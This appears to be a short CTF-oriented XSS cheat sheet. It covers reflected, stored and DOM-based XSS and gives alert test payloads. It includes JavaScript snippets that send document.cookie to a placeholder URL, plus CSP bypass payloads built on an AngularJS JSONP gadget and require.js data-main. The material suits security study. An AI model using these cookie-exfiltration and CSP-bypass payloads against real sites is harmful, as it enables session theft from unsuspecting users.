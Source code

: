 # 💬 XSS

Cross Site Scripting (XSS) is a type of attack in which malicious scripts are injected in a website and executed on the client browser.

To demonstrate the presence of a XSS vulnerability it is enough to execute `<script>alert('Hi!')</script>`

Goals of a XSS:

- Steal the user cookie
- Log user activities on the website
- Change client code execution
- Make action from the admin account

## Types of XSS

There are three main types of XSS:

- reflected
- stored
- DOM-based

### Reflected

In reflected XSS the data inserted by the user is included in the webpage source without any validation.

Common point of attacks are query or path params.

```
http://website.com/profile?greetings=<script>alert('Hi!')</script>
```

### Stored

In stored XSS the payload is stored on the server and it is executed when other users visit the page.

It was very common in the past inside public forum or blogs. The payload can be stored inside a comment or a post.

Other examples are user profile information or contact forms.

Do you know someone called `<script>alert('Hi!')</script>`?

When there is no way to test your payload, this type of vulnerability becomes a blind XSS. This could happen for example with the restricted account.

### DOM-based

In DOM-based XSS the execution happens in the browser without any refreshes or updates.

Common examples are input form or special page actions.

## Send requests in Javascript

XSS challenges usually require to do a request with a secret value.
These snippets below are possible ways to do it.

```js
// this is a redirection, but it could be used too
document.location = '<url>?cookie=' + document.cookie
```

```js
var request = new XMLHttpRequest()
request.open('GET', '<url>?cookie=' + document.cookie)
request.send(null)
```

```js
fetch('<url>?cookie=' + document.cookie)
```

## CSP bypasses

### JSONP endpoints

This technique is based on special JSONP endpoints that allows unsafe execution of malicious scripts.

Look [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) for a list of the most common endpoints.

:::caution
If there are any CSP sources set, you should pay attention on which endpoint you are using.
:::

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
<div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```

### require.js

If the website uses require.js, it is possible to load additional code that will be automatically injected.
This means that the code will be loaded together with require.js and so it will avoid any nonce or other CSP.

```js
<script data-main="data:1,alert(1)" src="require.js"></script>
```
